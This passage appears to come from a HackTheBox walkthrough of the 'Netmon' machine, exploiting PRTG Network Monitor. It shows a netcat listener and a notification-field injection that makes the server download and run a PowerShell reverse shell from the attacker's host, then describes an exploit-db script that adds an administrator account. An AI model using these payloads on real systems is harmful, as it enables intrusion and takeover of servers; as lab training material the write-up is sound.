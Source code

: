```
python3 -m http.server
nc -lvnp 6868
```

Now we must modify our notification in PRTG to have Netmon download and execute our reverse shell. We can do that by changing the notification to `test.txt;IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9:8000/rs.ps1')`. Hit test notification and...

![](/images/HTB/Netmon/manual_root.png)

We now have a root shell. Boom.

## Bash Script

Right after this box was released a bash script appeared on exploit-db for PRTG authenticated remote code execution. Looking at this code the script does three things:
- Creates the text file C:\Users\Public\tester.txt
- Creates a user pentest with the password P3nT3st!
- Adds the pentest user to the administrators group

You'll note that if you read the blog post mentioned in the manual method that the username and password are the same that were used in that example. The big difference here is that this script adds them to the administrators group where as in the article he just created the user. If you were trying to follow the article and ended up with an 'authorization denied' error when connecting to the SMB share this is why.

So we know this script should work because our version falls within the version in the CVE so let's give it a shot. Since HackTheBox may have different users trying to exploit the same box, at the very least I like to change the username found in the scripts I find. A quick find/replace of 'pentest' to 'cypher' should do the trick.

The one other thing this script requires is the login cookie so it can authenticate with the server. Let's load up burp and send a login request:

![](/images/HTB/Netmon/burp_request.png)
